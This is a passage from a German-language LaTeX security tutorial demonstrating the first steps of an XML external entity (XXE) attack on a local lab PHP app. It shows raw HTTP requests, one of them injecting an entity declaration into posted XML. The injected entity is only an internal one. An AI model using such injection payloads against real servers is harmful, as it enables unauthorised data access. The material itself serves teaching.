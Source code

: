 Eine \texttt{POST}-Anforderung an die \texttt{xxe.php}-Datei mit \texttt{XML}-Daten gesendet, die im folgenden Screenshot gezeigt werden:

\begin{LaTeXCode}[caption={POST Anfrage zur PHP-Datei},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

	<root>
		<username>sahil</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll beachtet werden, dass die Anwendung in der \texttt{HTTP}-Antwort einen Benutzernamen anzeigt, der bestätigt, dass die \texttt{XML}-Daten geparst werden.

\newpage

\begin{LaTeXCode}[caption={Geparste XML-Daten},captionpos=b][numbers=none]
HTTP/1.1 200 OK
Date: Tue, 15 May 2018 17:40:35 GMT
Server: Apache/2.4.27 (Win64) PHP/5.6.31
X-Powered-By: PHP/5.6.31
Content-Length: 16
Connection: close
Content-Type: text/xml; charset-UTF-8	

username: sahil\\
\end{LaTeXCode}

Nun wird den XML-Daten eine interne Entität hinzugefügt und im \texttt{username}-Element mit \texttt{\&u} verweist und die Anfrage erneut gesendet.\\

\begin{LaTeXCode}[caption={Manipulierte Anfrage},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

<xml version="1.0"?>
<!DOCTYPE foo[<!ENTITY u 'username from internal entity'>]>	
	<root>
		<username>\&u;</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

